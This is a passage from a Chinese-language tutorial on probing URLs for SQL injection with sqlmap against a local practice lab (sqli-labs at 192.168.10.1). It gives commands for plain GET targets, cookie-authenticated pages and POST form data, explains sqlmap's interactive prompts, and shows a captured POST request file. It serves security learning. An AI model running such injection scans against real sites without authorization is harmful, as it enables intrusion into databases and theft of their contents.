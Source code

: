 ## 探测指定 URL 是否存在 SQL 注入漏洞

**对于不用登录的网站**，直接指定其 URL

```python
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"  #探测该url是否存在漏洞
```

在探测目标 URL 是否存在漏洞的过程中，Sqlmap 会和我们进行交互。

比如第一处交互的地方是说这个目标系统的数据库好像是 Mysql 数据库，是否还探测其他类型的数据库。我们选择 n，就不探测其他类型的数据库了，因为我们已经知道目标系统是 Mysql 数据库了。

第二处交互的地方是说 对于剩下的测试，问我们是否想要使用扩展提供的级别 (1) 和风险 (1) 值的 "MySQL" 的所有测试吗？我们选择 y。

![](https://p2.ssl.qhimg.com/t01402f9ea9562a8e25.png)

第三处交互是说已经探测到参数 id 存在漏洞了，是否还探测其他地方，我们选择 n 不探测其他参数了。

最后 sqlmap 就列出了参数 id 存在的注入类型是 boolean 盲注，还有 payload 其他信息也显示出来了，最后还列出了目标系统的版本，php，apache 等信息。

![](https://p1.ssl.qhimg.com/t018ffeaea388a20f96.png)

这次探测的所有数据都被保存在了 **/root/.sqlmap/output/192.168.10.1/** 目录下

![](https://p4.ssl.qhimg.com/t0109afcd10954974f6.png)

**对于需要登录的网站**，我们需要指定其 cookie。我们可以用账号密码登录，然后用抓包工具抓取其 cookie 填入

```python
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"  #探测该url是否存在漏洞
```

**对于是 post 提交数据的 URL**，我们需要指定其 data 参数

```python
sqlmap -u "http://192.168.10.1/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
```

![](https://p2.ssl.qhimg.com/t01cd3dcbfe0685247b.png)

**我们也可以通过抓取 http 数据包保存为文件**，然后指定该文件即可。这样，我们就可以不用指定其他参数，这对于需要登录的网站或者 post 提交数据的网站很方便。

我们抓取了一个 post 提交数据的数据包保存为 post.txt，如下，uname 参数和 passwd 参数存在 SQL 注入漏洞

```perl
POST /sqli/Less-11/ HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Referer: http://192.168.10.1/sqli/Less-11/
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admin&submit=Submit
```
